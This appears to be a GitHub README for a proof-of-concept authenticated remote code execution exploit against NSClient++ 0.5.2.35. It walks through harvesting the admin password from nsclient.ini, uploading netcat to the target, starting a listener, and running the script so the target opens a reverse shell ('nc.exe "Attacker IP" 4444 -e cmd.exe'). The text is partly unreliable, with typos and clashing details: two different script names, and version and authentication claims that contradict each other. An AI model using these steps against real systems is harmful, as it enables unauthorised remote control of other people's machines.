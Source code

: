 ** NSClient++ 0.5.2.35 Authenticated RCE Exploit

This repository contains a proof-of-concept (PoC) exploit for a Remote Code Execution (RCE) vulnerability in the **NSClient++ 0.5.2.35** version. 
The vulnerability allows authenticated users to execute arbitrary commands on the target system. This exploit leverages the **NSClient++** service's improper authentication handling,
which can be exploited by sending specially crafted requests.

** Vulnerability Overview:
NSClient++ versions prior to 0.5.2.35 are vulnerable to a Remote Code Execution (RCE) issue where an authenticated attacker can execute arbitrary commands on a remote server. 
This issue is caused by insecure handling of inputs from the attacker, which allows execution of arbitrary commands with administrative privileges.

** How to Use:
To run the exploit, you need to provide the following arguments: 

--->>>>>
1. Firt you have to chane the name to (58360.py)
2. make temp directory in target system named with temp
3. forword the port if needed on Attacker machine using the following command  ->  ssh -L 8443:127.0.0.1:8443 user@domain
4. upload your (nc64.exe) from attacker machine to the target on temp directory
5. by using the arguments in the code

----->
   
5.1 **Target IP Address** (`-t`): The IP address of the target system running the vulnerable NSClient++ service.

5.2 **Target Port** (`-P`): The port number of the NSClient++ service (default is typically 5666 unless changed).

5.3 **Password** (`-p`): The administrative password for NSClient++ on the target system. ## read the password on the system using --> `type nsclient.ini

5.4 **Command to Execute** (`-c`): The command you want to execute on the target system once authenticated. ##in the terget upload it in "temp"

--------- 
6. Finally open listener then exploit the target with
 ```bash
    nc -lnvp 4444
    python3 48360.py -t 127.0.0.1 -P 8443 -p "Password" -c "c:\temp\nc.exe "Attacker IP" 4444 -e cmd.exe"

